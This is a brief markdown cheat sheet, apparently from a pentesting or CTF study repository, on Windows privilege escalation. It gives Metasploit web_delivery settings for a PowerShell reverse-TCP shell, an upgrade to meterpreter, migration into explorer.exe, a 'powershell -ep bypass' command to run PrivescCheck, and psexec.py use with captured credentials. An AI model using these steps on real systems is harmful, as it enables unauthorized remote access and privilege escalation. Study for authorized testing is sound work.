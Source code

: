 # Identifying Windows Privilege escalation
This script identifies privilige escalation  
https://github.com/itm4n/PrivescCheck

**Web Delivery**  
- Module: multi/script/web_delivery
  - This creates a script that we can run on the target system
  - Set target to powershell (for windows) -- ```set target PSH\ (Binary)```
  - set payload windows/shell/reverse_tcp
  - set PSH-EncodedCommand false

Use shell to meterpreter  
1. set LHOST
2. set SESSION
3. Show advanced
4. set WIN_TRANSFER VBS

Migrate to explorer.exe  
Run the script using command from the github page -- ```powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"```

# Escalating Windows Privileges
take the credentials received and run psexec  
1. ```psexec.py Username@(IP)```  
2. type password
3. type whoami and it will tell you your privs
